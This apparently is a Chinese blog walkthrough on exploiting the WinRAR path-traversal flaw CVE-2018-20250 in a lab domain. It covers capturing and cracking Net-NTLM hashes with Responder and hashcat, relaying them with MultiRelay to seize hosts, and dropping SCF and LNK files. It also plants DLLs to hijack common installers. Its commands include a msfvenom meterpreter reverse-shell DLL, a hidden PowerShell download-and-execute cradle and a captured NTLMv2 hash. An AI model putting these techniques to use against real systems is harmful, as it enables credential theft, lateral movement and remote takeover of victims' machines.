





WinRAR代码执行复现与利用
环境
| IP | 工具 | |
|---|---|---|
| 攻击主机：Arch | 192.168.56.1 | 很多，下文讲到 |
| 域控：Windows 2008 R2 | 192.168.56.108 | |
| 目标主机：Windows7*2 | 192.168.56.106/107 | |
| CobaltStrike：Ubuntu16.04 | 192.168.56.109 |
- 作者：三米前有蕉皮
- 博客：https://kali-team.cn
- B站【字幕】：https://www.bilibili.com/video/av44889268
漏洞利用
- 穿透目录释放文件到开机启动菜单这些我就不演示了。
- 获取受害者的Net NTLM Hash
- 借助下载文件夹安装程序DLL劫持
- 投放恶意的 LNK 文件
- …
获取受害者的Net-NTLM Hash
工作组
- 工具：https://github.com/WyAtu/CVE-2018-20250
- 把下面的target_filename中的IP地址改成攻击者的就可以了。
1 | # The archive filename you want |
先查看配置文件
/usr/share/responder/Responder.conf，检查SMB服务是否为On。我的虚拟机使用的网卡是vboxnet0，需要root权限。通过使用参数-I指定网卡运行
1 | ➜ ~ sudo responder -I vboxnet0 -wrfv --lm |

- 在这可看到IP地址为192.168.56.106的主机通过SMB共享访问了我的Arch，并获取到了用户名和Net NTLM Hash。

- 获取到Net NTLM Hash之后可以使用HashCat来暴力破解，在现在计算机性能这么强大的时代，就我的Intel 的破CPU都能跑1277.4 kH/s，不过之前要安装OpenCL的库，如果是用显卡跑就更快了。
- 把最后一个Hash复制出来
1 | Win7::Win7-PC:8a6ee201f1d2b55d:9F6527FB57FF8D60180A1D833D7CAC04:0101000000000000619F9D50ECCDD401682645F91DB02E7500000000020000000000000000000000 |
- 查看加密算法模块对应的编号，上面看到的是
NTLMv2，所以我们使用5600
1 | ➜ ~ hashcat --help|grep NTLM |

- 截图上面我标记出来的就是密码了，只要你的字典够强大，我的字典只有一万行，一秒都不用就跑完了。
- 拿到密码就可以登录上去或者执行各种命令都是可以的。
域控
- 如果目标是域控就可以使用Hash中继来直接登录域内的主机。
- 还是打开responder的配置文件，这次是把HTTP和SMB服务改成Off，因为等一下用到另一个工具的时候要监听445和80端口。
- 工具：MultiRelay.py，在responder的tool目录下。
- 最好先切换到responder目录下，因为在获取到Windows的Shell的时候要使用MultiRelay目录里的工具。
1 | ➜ ~ cd /usr/share/responder/tools |
- -t后面接着是你想攻击主机的IP地址，-u是用户名，这里选择所有，就是ALL。
- 再打开一个终端，执行
➜ ~ sudo responder -I vboxnet0 -wrfv --lm - 现在只要域控访问了Arch监听的SMB服务，就可以获取域控的Net NTLM Hash，这样就可以登录域内的主机了，基本是指哪打哪。

- 截图上市已经拿到了主机：192.168.56.106的权限了，可以继续使用神器读取明文密码。但是这里上传到主机的被火绒拦截了，这也说明真的是可以控制的。

- 关掉火绒试试，上传成功并获取到了明文密码。
更多好玩的东西，自己挖掘。。。
释放SCF文件
- 还有一种释放.scf文件获取目标的Net NTLM Hash的，释放到磁盘的根目录，只要打开我的电脑就会访问攻击者的SMB服务，获取Hash一把梭。
- 新建一个文本后缀改为.scf，把下面的内容复制进去，IP地址改为攻击者的。添加进压缩包，其实解压到能看到的地方都可以触发。
1 | [Shell] |
- 当然还有desktop.ini、autorun.inf这些可以设置icon图标和设置文件夹的背景图片的，也可以使用file协议远程加载攻击者的SMB服务，高中就经常设置U盘图标和U盘的背景图片装逼的了，没想到现在还有这些用处。
借助下载文件夹安装程序DLL劫持
- DLL劫持是什么？还是看倾旋的博客
- 因为WinRAR这个跨文件目录释放的漏洞本来就不怎么容易利用，而且DLL劫持也需要知道别人电脑里有什么软件，还得知道别人装的软件哪里存在DLL劫持。这真的是难上加难了。所以下面的思路仅供脑补，会有很多很多假设。
- 既然我们不知道目标主机上有什么软件，那就要找一个比较通用的DLL，然后发现很多安装包程序就存在很多DLL劫持漏洞，在测试时发现了阿里几个客户端都存在DLL劫持，甚至连我想安装的火绒杀毒软件也存在同样的问题。那我就推测是不是打包成安装包的工具有问题。
下面是我测试安装包，存在DLL劫持的，我只是测试了几个，这么巧，这几个都存在DLL劫持。
旺旺客户端的
1 | C:\Windows\system32\CRYPTBASE.dll |
- 千牛客户端的
1 | C:\Windows\system32\CRYPTBASE.dll |
- 钉钉还有火绒也差不多和上面的一样，但是在测试时卡死了N次
- 在测试了上面几个安装包后统计出来一个特点，你会发现DLL全部是大写字母的，非常的通用，SHFOLDER.DLL可以支持三个安装包的劫持效果。旺旺的可以使用RASAPI32.dll。
- 释放到下载目录的部分代码。
1 | # The archive filename you want |
- 而且这些安装包会在一个比较固定的目录，那就是下载文件夹。假设我利用WinRAR的跨目录释放了一个DLL到了下载文件夹这个目录，然后用户从上面这些客户端的安装包官方网站下载的正常文件回来，下载完了直接点击打开运行，这样就会加载我释放出来的DLL，达到攻击的目的。
- 下面图片中是千牛客户端的安装包加载下载目录中的DLL后打开了计算器，在模块列表中看到是加载了攻击者的DLL。

- 下面开始演示一次，工具：一个DLL文件。
1 | ➜ ~ msfvenom -p windows/meterpreter/reverse_tcp LPORT=7788 LHOST=192.168.56.1 -a x86 -f dll >WinRAR.dll |
- MSF生成一个DLL有一个问题劫持了之后安装包不能正常运行，这是DLL的问题，自己写的应该就不会了。
- 或者使用CobaltStrike生成的DLL可以正常安装，但是要做好进程迁移，因为安装包结束了，子进程也会跟着关闭，这样就控制不了了，免杀是硬伤。。。
投放LNK文件
- 只是一个思路：在CobaltStrike里使用PowerShell远程加载。
1 | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.56.109:80/a'))" |
- 关键是没几个人会点了，一般弄一个常见的快捷键什么都会被杀毒软件拦截。这个方法就算凑个数吧。
参考
https://github.com/incredibleindishell/Windows-AD-environment-related/tree/master/Responder
https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/